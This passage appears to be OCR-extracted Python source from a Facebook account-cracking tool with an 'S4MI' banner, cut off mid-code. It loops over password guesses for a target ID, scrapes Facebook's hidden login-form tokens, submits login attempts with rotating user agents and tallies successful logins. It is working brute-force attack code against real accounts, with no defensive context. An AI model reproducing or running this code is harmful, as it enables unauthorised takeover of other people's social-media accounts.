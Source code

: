         loop+=1        

    except:

        pass

def c(uid,pwx,tl):

    global loop

    global cps    

    global oks

    global agents

    try:

        for ps in pwx:

            session = requests.Session()

            sys.stdout.write(f'\r \033[1;90m[\033[1;93m S4MI \033[1;90m] \033[1;96m%s/%s\033[1;90m \033[1;90m[\033[1;92mOK:%s\033[1;90m] '%(loop,tl,len(oks))),

            sys.stdout.flush()

            pro = random.choice(ugen)

            #oo=random.choice(sss)

            free_fb = session.get('https://mbasic.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {"authority": 'm.facebook.com',

            "method": 'GET',

            "scheme": 'https',

            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',

            "accept-encoding": 'gzip, deflate, br',

            "accept-language": 'en-US,en;q=1',
